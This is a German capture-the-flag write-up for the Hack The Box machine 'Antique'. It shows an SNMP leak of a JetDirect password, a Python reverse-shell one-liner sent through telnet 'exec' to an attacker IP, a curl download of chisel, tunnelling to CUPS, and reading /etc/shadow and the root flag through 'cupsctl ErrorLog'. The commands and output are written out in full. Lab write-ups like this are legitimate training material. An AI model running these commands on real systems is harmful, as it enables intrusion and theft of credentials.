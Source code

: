```yaml
---
title: Writeup_Antique
date: 2022-09-20 11:45:00 +0100
categories: [HTB, Maschine]
tags: [snmpwalk, pwncat-cs, chisel]
comments: false
---
```



Heute habe ich NmapAutomater.sh ausprobiert
https://github.com/21y4d/nmapAutomator

```
┌─[kamil@bumbleparrot]─[~/nmapAutomator]
└──╼ $./nmapAutomator.sh -H 10.10.11.107 -t All
```

Folgende Ergebnisse habe ich erhalten

```
# Nmap 7.92 scan initiated Fri Oct 15 11:13:41 2021 as: /usr/bin/nmap -sCV -p23 --open -oN nmap/Script_10.10.11.107.nmap --system-dns --stats-every 2s 10.10.11.107
Nmap scan report for 10.10.11.107
Host is up (0.061s latency).

PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.92%I=7%D=10/15%Time=6169464C%P=x86_64-pc-linux-gnu%r(NUL
SF:L,F,"\nHP\x20JetDirect\n\n")%r(GenericLines,19,"\nHP\x20JetDirect\n\nPa
SF:ssword:\x20")%r(tn3270,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(GetRe
SF:quest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(HTTPOptions,19,"\nHP\x
SF:20JetDirect\n\nPassword:\x20")%r(RTSPRequest,19,"\nHP\x20JetDirect\n\nP
SF:assword:\x20")%r(RPCCheck,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DN
SF:SVersionBindReqTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNSStatus
SF:RequestTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Help,19,"\nHP\x20
SF:JetDirect\n\nPassword:\x20")%r(SSLSessionReq,19,"\nHP\x20JetDirect\n\nP
SF:assword:\x20")%r(TerminalServerCookie,19,"\nHP\x20JetDirect\n\nPassword
SF::\x20")%r(TLSSessionReq,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Kerb
SF:eros,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(SMBProgNeg,19,"\nHP\x20
SF:JetDirect\n\nPassword:\x20")%r(X11Probe,19,"\nHP\x20JetDirect\n\nPasswo
SF:rd:\x20")%r(FourOhFourRequest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%
SF:r(LPDString,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPSearchReq,19
SF:,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPBindReq,19,"\nHP\x20JetDir
SF:ect\n\nPassword:\x20")%r(SIPOptions,19,"\nHP\x20JetDirect\n\nPassword:\
SF:x20")%r(LANDesk-RC,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(TerminalS
SF:erver,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(NCP,19,"\nHP\x20JetDir
SF:ect\n\nPassword:\x20")%r(NotesRPC,19,"\nHP\x20JetDirect\n\nPassword:\x2
SF:0")%r(JavaRMI,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(WMSRequest,19,
SF:"\nHP\x20JetDirect\n\nPassword:\x20")%r(oracle-tns,19,"\nHP\x20JetDirec
SF:t\n\nPassword:\x20")%r(ms-sql-s,19,"\nHP\x20JetDirect\n\nPassword:\x20"
SF:)%r(afp,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(giop,19,"\nHP\x20Jet
SF:Direct\n\nPassword:\x20");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 15 11:16:26 2021 -- 1 IP address (1 host up) scanned in 165.61 seconds
```

Da das Script nebenher läuft konnte ich schon telnet prüfen

```
┌─[kamil@bumbleparrot]─[~/Desktop/HTB]
└──╼ $telnet 10.10.11.107
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: ^CConnection closed by foreign host.
```

Hier wird ein Passwort benötigt welches ich bis noch nicht habe.
Warten wir den Nmap Scan noch ab, ob hier noch UDP Ports offen sind.

```
----------------------Starting UDP Scan------------------------                                                                                                                                                                                                  
PORT    STATE SERVICE                                                                                                                                                                                                                      
161/udp open  snmp                                                                     
Making a script scan on UDP ports: 161                                                 
PORT    STATE SERVICE VERSION                                                                                                                                                                                                              
161/udp open  snmp    SNMPv1 server (public) 
```

```
=========================                                 

Starting snmpwalk scan                                    

Created directory: /var/lib/snmp/cert_indexes
iso.3.6.1.2.1 = STRING: "HTB Printer"
```

Leider konnte ich auch hier nichts finden. Nach einer kleinen Suche nach HP JetDirect exploit bin ich auf folgendes gestoßen https://www.exploit-db.com/exploits/22319.

```
┌─[✗]─[kamil@bumbleparrot]─[~/Desktop/HTB/Maschinen]
└──╼ $snmpwalk -v 2c -c public 10.10.11.107  .1.3.6.1.4.1.11.2.3.9.1.1.13.0
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```

Versuchen wir den hex mit Cyperchef  zu entschlüsseln.



```P@ssw0rd@123!!123```


```
┌─[✗]─[kamil@bumbleparrot]─[~/nmapAutomator]
└──╼ $telnet 10.10.11.107
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123

Please type "?" for HELP
>  
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
```

Der exec Befehl sieht interessant aus, probieren wir diesen
```
> exec id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
```

```
> exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
> 
Err updating configuration
```
Versuchen wir python3

```
> exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

```
┌─[kamil@bumbleparrot]─[~/Desktop/HTB/Maschinen/Antique]
└──╼ $pwncat -lp 9001
[12:54:43] Welcome to pwncat 🐈!                                                                      __main__.py:153
[12:55:24] received connection from 10.10.11.107:40924                                                     bind.py:76
[12:55:25] 0.0.0.0:9001: upgrading from /usr/bin/dash to /usr/bin/bash                                 manager.py:504
[12:55:26] 10.10.11.107:40924: registered new host w/ db                                               manager.py:504
(local) pwncat$
```

Nachdem ich Linpeas.sh laufen lassen hatte viel mir folgender Eintrag auf

```
╔══════════╣ Active Ports                                                                                                                                                                                                                  
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports                                                                                                                                                                   
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN      828/python3                                                                                                                                                
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                                                                                                                                                          
tcp6       0      0 ::1:631                 :::*                    LISTEN      -   
```

Port 631 ist gewöhnlich ein HTTP-Print Protokoll, nur leider nur intern erreichbar.
Versuchen wir mit Chisel draufzukommen

Zuerst müssen wir auf unserem OS den server starten

```
┌─[kamil@bumbleparrot]─[~/chisel]
└──╼ $./chisel server -p 9999 --reverse
2021/10/15 13:14:16 server: Reverse tunnelling enabled
2021/10/15 13:14:16 server: Fingerprint C/IU2bbAD+xhAHGvEke4CI6NR6xnDp9vhBF+IhU1FUI=
2021/10/15 13:14:16 server: Listening on http://0.0.0.0:9999
```


nun kopieren wir chisel auf die Maschine

```
(remote) lp@antique:/tmp$ curl http://10.10.14.6:8080/chisel > chisel
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 7940k  100 7940k    0     0  1544k      0  0:00:05  0:00:05 --:--:-- 1643k
(remote) lp@antique:/tmp$ ls
chisel  systemd-private-7619d96ce6104023b01d2a398b29a807-systemd-logind.service-L3eyjj  systemd-private-7619d96ce6104023b01d2a398b29a807-systemd-timesyncd.service-gmuAhg  tmux-7  vmware-root_590-2688750742
(remote) lp@antique:/tmp$ chmod +x chisel

```

Maschine

```
(remote) lp@antique:/tmp$ ./chisel client 10.10.14.6:9999 R:6631:127.0.0.1:631
2021/10/15 11:39:15 client: Connecting to ws://10.10.14.6:9999
2021/10/15 11:39:15 client: Connected (Latency 53.05419ms)
```

Nun können wir den Browser öffnen und die Seite unter http://127.0.0.1:6631 weiter durchsuchen

Auf meiner google Suche habe ich einen einfach Weg gefunden, wie ich an das root-Flag komme

Hierzu muss erstens die Config/ErrorLog angepasst werden. Dnach kann ich einfach meinen Chisel client wieder starten
```
^C2021/10/15 11:59:32 client: Disconnected
2021/10/15 11:59:32 client: Give up
(remote) lp@antique:/tmp$ cupsctl ErrorLog="/etc/shadow"
(remote) lp@antique:/tmp$ ./chisel client 10.10.14.6:9999 R:6631:127.0.0.1:631
2021/10/15 11:59:49 client: Connecting to ws://10.10.14.6:9999
2021/10/15 11:59:49 client: Connected (Latency 52.33472ms)
```

Nun kann ich über die Page die ""/etc/shadow" anschauen


![Bild2](/assets/Bilder/Maschine_Antique/Pasted%20image%2020211015135015.png){: width="700" height="400" }
```
(remote) lp@antique:/tmp$ cupsctl ErrorLog="/root/root.txt"  
```


![Bild3](/assets/Bilder/Maschine_Antique/Pasted%20image%2020211015135236.png){: width="700" height="400" }







